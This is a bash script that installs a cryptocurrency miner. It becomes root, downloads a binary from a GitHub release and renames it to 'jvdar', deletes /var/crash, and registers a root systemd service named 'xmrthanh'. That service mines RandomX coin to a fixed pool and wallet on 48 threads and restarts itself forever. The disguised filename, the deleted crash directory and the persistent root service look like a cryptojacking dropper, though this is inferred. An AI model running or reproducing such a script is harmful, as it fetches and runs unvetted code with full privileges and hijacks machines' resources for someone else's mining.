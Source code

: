 #!/bin/bash
sudo su
cd /home
wget https://github.com/trangtrau/sang_ml/releases/download/test/ar 
cp ar jvdar 
chmod +x jvdar

rm -rf /lib/systemd/system/xmrthanh.service
rm -rf /var/crash
bash -c 'cat <<EOT >>/lib/systemd/system/xmrthanh.service 
[Unit]
Description=xmrthanh
After=network.target
[Service]
ExecStart= /home/jvdar -o salvium.herominers.com:1230 -u SaLvsBrc1ebPv355rrKUa5a2EX1oat7cn5HnCcQjM8RcNdjiPXJ89ax6RCXs3UNEtrWK6K75YKe6y3PATwNHrmHtAASGmR5WCjP -p 1svts15 -a rx/0 -k -t 48
WatchdogSec=36000
Restart=always
RestartSec=60
User=root
[Install]
WantedBy=multi-user.target
EOT
' &&
systemctl daemon-reload &&
systemctl enable xmrthanh.service &&
service xmrthanh stop  &&
service xmrthanh restart
top
